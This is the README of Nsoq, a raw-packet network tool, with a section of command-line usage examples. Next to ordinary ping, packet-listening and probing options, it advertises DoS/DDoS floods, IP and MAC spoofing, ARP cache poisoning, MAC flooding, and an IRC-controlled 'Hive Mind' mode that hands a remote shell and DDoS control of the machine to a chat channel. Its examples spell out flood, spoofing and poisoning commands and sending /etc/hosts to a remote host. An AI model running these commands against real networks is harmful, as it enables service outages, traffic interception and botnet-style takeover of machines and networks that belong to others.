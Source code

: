 Nsoq official documentation: See [here.](http://www.hexcodes.org/nsoq.i)
========================================================================


## About
--------

   Nsoq is a Network Security tool for raw packets manipulation that allows a
   large number of options. Its primary purpose is analyze and test several 
   scenarios of TCP/IP environments, such TCP/UDP packets and low levels 
   ARP/RARP packets.<BR/>
   Nsoq can send packets to any target type (like hostnames, IPs and MAC address)
   like handling many fields/headers like: Source/Destination IP address,
   Source/Destination MAC address, TCP flags, ICMP types, TCP/UDP/ICMP packet
   size, payloads ARP/RARP, etc.

   Nsoq is able to operate into the RSOI mode (Remote System over IRC), where 
   the tool can surrender all control of machine resources to some specific IRC
   channel, also called Hive Mind option.
   
   Nsoq exeutes sistematically many types of network based attacks, like packet
   attacks, MAC/IP Spoofing, DoS/DDoS attacks, ARP Poison, MAC Flooding and
   Web Stress Testing.

<BR/>

## Features
-----------

#### Some white options:
- Sends and checks many ICMP packet types: Echo Request, Mask Reply, Information Request, Source Quench, etc.
- Sends and checks the TCP packet headers: bit SYN, ACK, RST, FIN, PUSH , XMAS e NULL FLAGS.
- Server/Client TCP. Also checks TCP packet headers (tcpdump style).
- Check and sends UDP packets.
- Sends and checks ARP/RARP packets (enlace layer).
- [Listen Modes] Listen ICMP, UDP, TCP (packets or connections) and ARP/RARP.
- Threads handler on all modes.
- Sets packet size for all modes.
- Show a packet dump on listen modes (tcpdump style).
- [RSOI mode] Delivers a remote shell under IRC channels (IRCp protocol).
- FTP handler (I/O bound connections like netcat style).
- Arping mode. Sends ARP replies instead of ICMP ping (bypass ICMP ping).

#### Dark Options:
- [DoS/DDoS Attack] WEB Stress HTTP test.
- [DoS/DDoS Attack] WEB Stress TCP test.
- [DoS/DDoS Attack] WEB Stress UDP test.
- [DoS/DDoS Attack] WEB Stress ICMP test.
- [DoS/DDoS Attack] WEB Stress SYN test.
- [DoS/DDoS Attack] WEB Stress ACK test.
- [HIVE MIND] Surrenders remote control of the machine resources to an IRC channel across a remote shell (RSOI mode).
- MAC e IP spoofing.
- [HIVE MIND] Across of an IRC channel, perform a Distributed Denial Of Service (DDoS) attack.
- [ARP Poisoning Attack] Changes the ARP cache table of network neighbors (CAUTION).
- [MAC Flooding Attack] ARP Flooding with MAC/IP address randomly crafted (CAUTION).

<BR/>

##EXAMPLES
-----------

```
   # nsoq -d hexcodes -Ie
      Sends an ICMP packet (Echo Request) to host "hexcodes".

   # nsoq -lI
      ICMP listen mode. Listen for ICMP packets like PINGs.

   # nsoq -It -d www.hexcodes.org -c
      Sends ICMP packets (Timestamp Request) on continuous mode to server 
      "www.hexcodes.org".

   # nsoq -s 10.1.100.100 -d www.hexcodes.org -u -p 4140
      Sends an empty UDP packet with spoofed source ip "10.1.100.100" to host
      "hexcodes" on port 4140.

   # nsoq -d www.hexcodes.org -u -p 9000 -P 22000 -F 900 -q 20
      Sends only 20 UDP packets to server "www.hexcodes.org" and to port 9000,
      from source port 22000 with flood Delay of 900 miliseconds.

   # nsoq -d 201.1.0.13 -Ie -x 512 -t 50 -z
      Sets Nsoq for send ICMP packets (Echo Request) with size of 512 bytes 
      to host "201.1.0.13" with TTL 50. Don't wait for ICMP Echo ReplY.

   # nsoq -lU -P 59
      Listen UDP packets on local port 59 (all addresses and loopback).

   # nsoq -d hexcodes -Ts -p 6000
      Sends a TCP SYN packet to host "hexcodes" on port 6000.

   # nsoq -lC -P 12345 > file.txt
      Listen TCP connections on local port "12345", and write the received
      data on file 'file.txt'.

   # nsoq -d hexcodes -p 12345 < /etc/hosts
      Connect to host 'hexcodes' reading the file '/etc/hosts. The file
      content will be send over the TCP connection (netcat style).
   
   # nsoq -lT -P 2134 -D
      Listen for TCP packets on local port "2134" and show the packet content.

   # nsoq -d www.hexcodes.org -Tr -p 8080 -n 12 -b
      Sends TCP RST packets to server "www.hexcodes.org" on port 8080, with 12
      threads and super flood mode (HOT).

   # nsoq -H FF:FF:FF:FF:FF:FF
      Sends an ARP REPLY packet to physical Broadcast FF:FF:FF:FF:FF:FF. (The
      source MAC address and the source IP address will be obtained locally 
      by the active interface. The destination IP address will be NULL).

   # nsoq -i eth2 -h 00:BB:AA:CC:BB:AA -H FF:FF:FF:FF:FF:FF -d 10.1.10.1 -A
      Sends an ARP REQUEST packet by the eth2 interface with source MAC 
      00:BB:AA:CC:BB:AA, to destination physical Broadcast FF:FF:FF:FF:FF:FF,
      asking "Who ??" on the network have the IP address "10.1.10.1". The IP
      "10.1.10.1" (if alive) will respond with an ARP REPLY filled with its
      own MAC/IP address pair.

   # nsoq -s 10.2.2.100 -h 00:CC:AA:CC:BB:AA -H FF:FF:FF:FF:FF:FF
      Sends an ARP REPLY packet to destination physical Broadcast 
      FF:FF:FF:FF:FF:FF saying that the source IP address "10.2.2.100" have
      now the MAC address 00:CC:AA:CC:BB:AA. (Caution: This option changes
      the ARP cache table. Possible ARP poisoning attack).

   # nsoq -a 10.1.50.100
      Send an Arp'ing packet to Host "10.1.50.100". If the host hardware is
      alive on network or LAN, by default an ARP REPLY will be returned.
      Otherwise, nothing happens. This option can be used to bypass ICMP
      filters (PING filters).

   # nsoq -f 250000
      Send 250000 ARP REPLY packets (to physical broadcast) with the
      fields (SOURCE MAC, DESTINATION MAC, SOURCE IP and DESTINATION IP
      ADDRESSESS) randomly generated.

   # nsoq -lA -D
      Listen for ARP/RARP packets. Does a listen action for all incoming
      ARP/RARP packets on link layer, and show the packet content.

   # nsoq -N irc.quakenet.org -L Cybers
      Sets the Nsoq to connect on IRC Server "irc.quakenet.org" on channel
      #Cybers. This option puts Nsoq on the RSOI mode. So, the Nsoq 
      will be NO AVAILABLE to be controled by user. Only the users on IRC
      server "irc.quakenet.org" channel #Cybers can do this.

   # nsoq -d 10.0.0.1 -W -n 40
      Sets the Nsoq to "WEB Stress Mode". This option puts Nsoq to send HTTP
      requests (GET method) on super flooding mode to host "10.0.0.1" on port
      80 (WEB HTTP) with 40 threads. This stress test attempts to exhaust the
      services on port 80 (Web Server) and check the target's limit response.
```

<BR/>

## SECURITY
-----------

   Nsoq need superuser privileges (root) for operation and execution. DO NOT
   use the stick bit to allow root privilegies. This is not recommended and
   may allow involuntary or agressive DoS/DDoS attacks. The privileged Nsoq
   use also allows users manipulate the ARP cache table of neighbors on
   network, or put the system over a remote control.

<BR/>

## DISPONIBILITY
----------------

   Nsoq is available to anyone who wants to know, manipulate, or disassembly
   the tool. Nsoq is licensed under GPL and Free Software Foundation.<BR/> 
   A copy of the license accompanies the software.<BR/>
   Licensed under GPL 3 - Copyright (C) Felipe Ecker.
   
   Nsoq can be freely downloaded across of specif packets here: 
   [Nsoq Downloads.](http://www.hexcodes.org/tools/nsoq/downloads/)
